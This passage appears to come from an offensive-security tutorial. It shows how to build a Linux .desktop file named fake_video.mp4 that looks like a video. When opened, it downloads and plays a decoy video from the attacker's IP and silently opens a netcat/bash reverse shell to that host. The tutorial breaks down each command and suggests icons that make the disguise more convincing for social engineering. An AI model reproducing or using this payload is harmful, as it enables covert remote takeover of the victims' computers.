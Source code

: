 Create a new file.

```
$ nano fake_video.desktop
```

Copy the below text into the new file. The .desktop file extension is vital; the attack won't work without it.

```
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=fake_video.mp4
Exec=/usr/bin/wget 'http://192.168.1.XX/real_video.mp4' -O /tmp/real_video.mp4; /usr/bin/xdg-open /tmp/real_video.mp4; /usr/bin/mkfifo /tmp/f; /bin/nc 192.168.1.XX 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1 &
Terminal=false
Type=Application
Icon=video-x-generic
```

Several commands are executed and concatenated into one-line. I'll break it down to better explain each command.

- `/usr/bin/wget 'http://192.168.1.XX/real_video.mp4' -O /tmp/real_video.mp4;` — Wget downloads the real_video.mp4 file from the attacker's system (192.168.1.XX). It is saved (-O) to the /tmp directory with the same filename.
- `/usr/bin/xdg-open /tmp/real_video.mp4;` — The xdg-open command will open files with the target's operating system's preferred video player. If the target prefers VLC over MPV or another Linux video player, the real_video.mp4 will automatically play on VLC. Opening the video with the preferred media player will hopefully prevent the target from discovering the fake_video.desktop.
- `/usr/bin/mkfifo /tmp/f;` — Mkfifo will create a named pipe to redirect all of the following Netcat data to and from the attacker's system.
- `/bin/nc 192.168.1.XX 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1 &` — Netcat and Bash are used (with the named pipe) to connect back to the attackers systems (remember to change the XX in the IP address here). The port number (1234) is arbitrary and can be any number between 1 and 65535.

The `Icon=` image can be changed here. Icon filenames are found in the `/usr/share/icons/Mint-Y/mimetypes/128/` directory. The file extension (.png) can be omitted when creating .desktop files, but it's not necessary. Any file in the `/usr/share/icons/` directory is usable as a .desktop file icon.

For example, text files (text-x-generic) and other filetypes with a supporting PNG in the icons/ directory is usable. There's a lot of room to be creative with social engineering attacks here (fake TXT file shown below).
